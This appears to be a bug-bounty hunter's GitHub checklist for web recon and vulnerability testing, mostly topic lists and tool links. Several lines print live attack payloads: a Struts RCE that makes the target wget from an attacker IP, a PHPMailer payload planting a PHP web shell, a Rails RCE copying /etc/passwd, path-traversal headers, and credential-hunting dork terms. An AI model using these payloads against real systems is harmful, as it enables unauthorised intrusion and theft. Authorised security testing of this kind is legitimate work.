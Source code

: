 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection
	- Use GF to grep all possible sqli parameter
	- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
	- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
	- Use Error base sqli template nuclei.
	- Blind SQLi and Time Base SQLi [too](https://github.com/JohnTroony/Blisqy?s=09)
<details><summary>SQLi Test list</summary>
<p>
### Find SQL injection with ffuf:
Wayback and grep all php files,
```waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt```
OK let’s do some bash to grep the names after get to make a list of parameters to brute force in the endpoints.

**Getting Parameters**

```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u```
remove the .php string to make a list - ```cut -f1 -d”.”```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sort -u```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tee uppercase-param.txt```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tr '[:upper:]' '[:lower:]' > lowercase-param.txt```
so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:
```ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"```
If you don't get anything: Try with POST request
```ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"```
Ok now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it.

SQL:Command:
```sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast```
[Refrer](https://infosecwriteups.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-2824cd4dfab)
</p></details>

- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
	
  -  Stored XSS	
  -  Reflect XSS 	
  -  DOM XSS 	
  -  Blind XSS 	
  -  Header injection 	
  -  XSS in cookie body, Local Storage	
  -  Proto type pollution 	
  -  HTMLi
	
### XSS hunting with ffuf
```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	
What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	
Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
```column -s, -t Ffuf/Recruitment.csv```

[Refrence](https://markitzeroday.com/xss/hidden/reflected/content-discovery/bug-bounty/2020/03/03/xss-hunting.html)

</p>
</details>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
